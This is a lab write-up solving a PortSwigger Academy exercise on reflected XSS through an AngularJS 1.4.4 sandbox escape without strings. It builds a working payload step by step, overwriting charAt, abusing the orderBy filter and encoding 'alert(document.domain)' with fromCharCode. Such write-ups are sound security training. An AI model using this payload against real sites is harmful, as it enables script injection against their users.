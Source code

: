 # Reflected XSS with AngularJS sandbox escape without strings | Jan 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings), you'll learn: Reflected XSS with AngularJS sandbox escape without strings! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

## Background

This lab uses [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that escapes the sandbox and executes the `alert` function without using the `$eval` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072208.png)

In here, we can see there is a search box.

Let's search something:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072240.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072254.png)

As you can, our input is reflected to the web page.

**View source page:**
```html
<script type="text/javascript" src="/resources/js/angular_1-4-4.js"></script>
[...]
<section class=blog-header>
    <script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
        $scope.query = {};
        var key = 'search';
        $scope.query[key] = 'test';
        $scope.value = $parse(key)($scope.query);
    });</script>
    <h1 ng-controller=vulnCtrl>1 search results for \{\{value\}\}</h1>
    <hr>
</section>
```

As you can see, the search functionality is using **AngularJS 1.4.4**. Also, our input is **being rendered as a template: \{\{value\}\}.**

**Let's try to use an AngularJS sandbox bypass in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073512.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073533.png)

However, it doesn't work.

**In the lab's background, it said:**

> This lab uses [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.

**To solve that, we can use `toString()` to create a string without using quotes:**
```js
1&toString()
```

This will **get the `String` prototype.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073709.png)

**Then, we can use the most well-known escape uses the modified `charAt()` function globally within an expression:**
```js
1&toString().constructor.prototype.charAt=[].join;
```

This will **overwrite the `charAt` function for every string**, thus bypassing AngularJS sandbox.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073907.png)

**After that, we can use the `orderBy` filter to execute our JavaScript payload:**
```js
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:
```

In here, we're sending the array `[1]` to the `orderBy` filter on the right. The colon signifies an argument to send to the filter.

**Argument:**
```js
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1
```

Again, use `toString()` to get the `String` prototype. Then, we use the `fromCharCode` method generate our payload by converting character codes into the string `x=alert(document.domain)`. Because the `charAt` function has been overwritten, AngularJS will allow this code where normally it would not.

**Final payload:**
```js
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101075510.png)

Nice!

# What we've learned:

1. Reflected XSS with AngularJS sandbox escape without strings
